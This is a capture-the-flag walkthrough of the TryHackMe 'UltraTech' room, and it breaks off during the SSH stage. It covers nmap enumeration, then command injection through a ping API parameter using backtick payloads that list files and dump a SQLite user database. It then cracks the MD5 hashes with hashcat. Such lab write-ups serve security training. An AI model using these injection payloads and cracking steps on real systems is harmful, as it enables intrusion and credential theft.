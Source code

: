 <h1> TryHackMe UltraTech writeup - Medium </h1>

The basics of pentration testing, enumeration, privlilege escaltion, and webapp testing

## Part 1 - Enumeration

The first thing im going to do is run an nmap scan on the target IP address (10.10.208.199).

<p><span style="color:green"><em>
Starting Nmap 7.60 ( https://nmap.org ) at 2024-08-27 18:11 BST
Nmap scan report for ip-10-10-208-199.eu-west-1.compute.internal (10.10.208.199)
Host is up (0.00089s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8081/tcp open  blackice-icecap
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds
</em></span></p>



### Which software is using the port 8081?

- To find this I did an nmap scan looking for the service and version (-sV) specificly on port 8081.
    - `nmap -sV 10.10.208.199`

<p><span style="color:green"><em>
PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
</em></span></p>

From this we can see that the software running is Node.js.

### Which other Non-standard port is used?
- To find this, I ran an nmap scan that scans all ports rather than just the top 1000
    - `nmap 10.10.208.199 -p-`

<p><span style="color:green"><em>
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown
</em></span></p>

From this we can see that 31331 is the other non standard port running.

### Which software using this port?
- To find this, I ran an nmap scan that looks for the service and version (-sV) on port 31331.
    - `nmap -sV 10.10.208.199 -p 31331`

<p><span style="color:green"><em>
PORT      STATE SERVICE VERSION
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
</em></span></p>

From this we can see that Apache is the software using this port.

### Which GNU/Linux distribution seems to be used?
- To find this we can use the nmap scan from above.
- We can see that Ubuntu is the GNU/Linux distribution being used.

### The software using the port 8081 is a RESTapi, how many of its routes are used by the web application?
- To find this we can use an nmap scan that goes into more detail, -A.
    - `nmap -A 10.10.208.199 -p 8081`

<p><span style="color:green"><em>
PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (97%), Linux 3.8 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%),
Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%),
Linux 3.10 (92%), Linux 3.19 (92%), Linux 3.2 - 4.8 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms ip-10-10-208-199.eu-west-1.compute.internal (10.10.208.199)
</em></span></p>

From this we can see there are 2 Rest api's; _http-cors, and _http-title. 

## Part 2 - Explotation

### There is a database lying around, what is its filename?
- To start off, I opened my web browser and went to http://10.10.208.199:8081. The only thing to pop up is
  UltraTech API v0.1.3, which might be vulnerable. Im going to look at the other port before attempting to exploit this one.
- When looking at http://10.10.208.199:31331, we find a somewhat sophisticated looking webpage.
  Upon futher inspection on the Aboutus page we find a list of potential users.

<p><span style="color:green"><em>
John McFamicom | r00t
Francois LeMytho | P4c0
Alvaro Squalo | Sq4l
</em></span></p>

-Continuing on, we find a contact page that throws a 404 error. it also shows that apache version 2.4.29 which might come in handy if that version is vulnerable. 
- The next thing I look at is the robots.txt file, this leads me to /utech_sitemap.txt. Continuing to follow this path leads us to find.

<p><span style="color:green"><em>
/
/index.html
/what.html
/partners.html
</em></span></p>

- /partners.html seems interesting as it wasnt on the main page. Upon further invesigation we find that this is a login page. Looking into the .html code we find a custom written api file "api.js":

```.js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

- Im relativly new to api's but by analyzing the code we see that the function getAPIURL returns the domain name of the web host port 8081. Then then function checkAPIStatus goes to the url http://10.10.90.74:8081/ping?ip=10.10.90.74 . Which might be worth looking into before moving forward.
- After going to that web address, we can see that it returns the ping command. This looks like a form of remote code execution. Returned ping:
<p><span style="color:green"><em>
PING 10.10.90.74 (10.10.90.74) 56(84) bytes of data. 64 bytes from 10.10.90.74: icmp_seq=1 ttl=64 time=0.037 ms --- 10.10.90.74 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.037/0.037/0.037/0.000 ms
</em></span></p>
- The first thing I do is try to find out where I am in the system, I do this by running the command pwd
	- http://10.10.90.74:8081/ping?ip=`pwd`, this is the output:
<p><span style="color:green"><em>
ping: /home/www/api: Temporary failure in name resolution 
</em></p>
- We can see that our wokring directory is /home/www/api
- Now we can start looking around and trying to find the database filename. 
- The next command im going to run is a simple ls
	- http://10.10.90.74:8081/ping?ip=`ls`, this is the output:
<p><span style="color:green"><em>
ping: utech.db.sqlite: Name or service not known 
</em><</span></p>
- Great! the name of the database is utech.db.sqlite

### What is the first user's password hash?
- To find the first user's password hash I belive we should try to look in the ultratech database file. To do this I will use the same method I did to find the database.
	- http://10.10.90.74:8081/ping?ip=`cat utech.db.sqlite`
 <p><span style="color:green"><em>
ping: ) \ufffd\ufffd\ufffd(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
 </em><</span></p>   

From this we can see that the username and password hash.

<p><span style="color:green"><em>
r00t 	: f357a0c52799563c7c7b76c1e7543a32
admin	: 0d0ea5111e3c1def594c1684e3b9be84
</em></span></p>

### what is the password associated with this hash?

- To find the hash values, I will use hashcat.
	- hashcat -m 0 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
<p><span style="color:green"><em>
r00t	: n100906
admin	: mrsheafy
</em></span></p>

## Part 3 - Gathering Intel 

### what are the first 9 characters of the root user's private SSH key?

- The first thing im going to do is log into the ssh server using the user:pass we found in the last section.
- The admin account doesnt work for the ssh server but it might for the :31331/partners.html login page. It brings us to message from lp1 to please look at the servers configuration files.
- r00t is able to log into the ssh server.
-   

  

